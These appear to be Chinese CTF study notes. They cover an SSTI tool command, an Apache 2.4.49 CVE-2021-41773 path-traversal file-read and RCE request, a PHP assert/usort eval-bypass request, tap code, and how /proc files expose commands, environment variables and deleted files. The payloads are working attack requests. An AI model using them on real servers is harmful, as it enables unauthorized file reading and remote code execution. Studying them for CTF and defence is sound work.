 eg:`python -m fenjing crack --url 'http://node2.anna.nssctf.cn:28823/get_flag' --method POST --inputs name --action get_flag`

### Apache HTTP Server 2.4.49 CVE-2021-41773

攻击者可以使用路径遍历攻击将URL映射到预期文档根以外的文件。如果文档根目录以外的文件不受require all denied保护，则攻击者可以访问这些文件。

```bash
任意文件读取POC：
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: x.x.x.x:8080


RCE：
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: 192.168.109.128:8080
.....
echo; grep -r "NSS" /flag_is_here
```

### tapcode敲击码

我也很茫然
![敲击码](https://img.siren.blue/post_img/%E6%95%B2%E5%87%BB%E7%A0%81.webp)
附上解密网站
[在线解密网站](http://www.hiencode.com/tapcode.html)
空格影响结果哦

```bash
POST /test.php?1[]=test&1[]=var_dump($_SERVER);&2=assert HTTP/1.1
Host: localhost:8081
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

param=usort(...$_GET);
```

[附上链接日后钻研](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
[有空研究](https://www.cnblogs.com/-chenxs/p/11981586.html)

### proc

- cmdline
cmdline 文件存储着启动当前进程的完整命令，但僵尸进程目录中的此文件不包含任何信息。可以通过查看cmdline目录获取启动指定进程的完整命令
- cwd
cwd 文件是一个指向当前进程运行目录的符号链接。可以通过查看cwd文件获取目标指定进程环境的运行目录 eg:`proc/self/cwd/index.php`
- exe
exe 是一个指向启动当前进程的可执行文件（完整路径）的符号链接。通过exe文件我们可以获得指定进程的可执行文件的完整路径
- environ
environ 文件存储着当前进程的环境变量列表，彼此间用空字符（NULL）隔开。变量用大写字母表示，其值用小写字母表示。可以通过查看environ目录来获取指定进程的环境变量信息
- fd
fd 是一个目录，里面包含这当前进程打开的每一个文件的文件描述符（file descriptor），这些文件描述符是指向实际文件的一个符号链接，即每个通过这个进程打开的文件都会显示在这里。所以我们可以通过fd目录里的文件获得指定进程打开的每个文件的路径以及文件内容
这个fd比较重要，因为在 linux 系统中，如果一个程序用`open()`打开了一个文件但最终没有关闭他，即便从外部（如`os.remove(SECRET_FILE))`删除这个文件之后，在 `/proc` 这个进程的 pid 目录下的 fd 文件描述符目录下还是会有这个文件的文件描述符，通过这个文件描述符我们即可得到被删除文件的内容。
- self
上面这些操作列出的都是目标环境指定进程的信息，但是我们在做题的时候往往需要的当前进程的信息，这时候就用到了 /proc 目录中的 self 子目录。
